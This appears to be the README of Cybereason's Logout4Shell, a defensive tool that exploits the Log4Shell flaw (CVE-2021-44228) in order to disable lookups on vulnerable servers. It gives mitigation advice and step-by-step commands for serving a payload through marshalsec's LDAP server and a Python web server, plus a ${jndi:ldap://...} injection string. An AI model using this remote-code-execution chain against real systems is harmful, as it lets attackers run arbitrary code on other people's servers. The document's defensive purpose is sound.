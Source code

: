 # Logout4Shell
![logo](https://github.com/Cybereason/Logout4Shell/raw/main/assets/CR_logo.png)

## Description 
A vulnerability impacting Apache Log4j versions 2.0 through 2.14.1 was disclosed on the project’s Github on December 9, 2021. The flaw has been dubbed “Log4Shell,”, and has the highest possible severity rating of 10. Apache is pervasive and comprises nearly a third of all web servers in the world—making this a potentially catastrophic flaw.
The Log4Shell vulnerability CVE-2021-44228 was published on 12/9/2021 and allows remote code execution on vulnerabe servers.

While the best mitigation against this vulnerability is to patch log4j to
2.15.0 and above, in Log4j version (>=2.10) this behavior can be mitigated by
setting system property `log4j2.formatMsgNoLookups` to `true` or by removing
the JndiLookup class from the classpath. 
Additionally, if the server has Java runtimes >= 8u121, then by default, the
settings `com.sun.jndi.rmi.object.trustURLCodebase` and
`com.sun.jndi.cosnaming.object.trustURLCodebase` are set to “false”, mitigating this risk.

However, enabling these system property requires access to the vulnerable servers as well as a restart. 
The [Cybereason](https://www.cybereason.com) research team has developed the
following code to _exploits_ the same vulnerability and the payload therein
forces the logger to reconfigure itself with the vulnerable setting disabled -
this effectively blocks any further attempt to exploit Log4Shell on this server

You can learn more [here](https://www.cybereason.com/blog/cybereason-releases-vaccine-to-prevent-exploitation-of-apache-log4shell-vulnerability-cve-2021-44228)

## How it works
The payload and exploit below use the java runtime to reconfigure the logger. 
Prior to reconfiguring the global setting
`FORMAT_MESSAGES_PATTERN_DISABLE_LOOKUPS` is set to True, disabling message
format lookups and preventing further exploitation of this attack

## How to use

1. Download this report and build it 

   1.1 `git clone https://github.com/cybereason/Logout4Shell.ssh`

   1.2 build it - `mvn package`

   1.3 `cd target/class`

   1.4 run the webserver - `python3 -m http.server 8888`

2. Download, build and run Marshalsec's ldap server

   2.1 `git clone https://github.com/mbechler/marshalsec.git`

   2.2 `mvn package`

   2.3 `java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://<IP_OF_PYTHON_SERVER_FROM_STEP_1>:8888/#Log4jRCE"`

3. To immunize a server

   3.1 enter `${jndi:ldap://<IP_OF_LDAP_SERVER_FROM_STEP_2>:1389/a}` into a vulnerable field (such as user name)


## DISCLAIMER: 
The code described in this advisory (the “Code”) is provided on an “as is” and
“as available” basis may contain bugs, errors and other defects. You are
advised to safeguard important data and to use caution. By using this Code, you
agree that Cybereason shall have no liability to you for any claims in
connection with the Code. Cybereason disclaims any liability for any direct,
indirect, incidental, punitive, exemplary, special or consequential damages,
even if Cybereason or its related parties are advised of the possibility of
such damages. Cybereason undertakes no duty to update the Code or this
advisory.


## Credits
The initial repo and inspiration for this work is based on the work of [tangxiaofeng7/apache-log4j-poc](https://github.com/tangxiaofeng7/apache-log4j-poc)
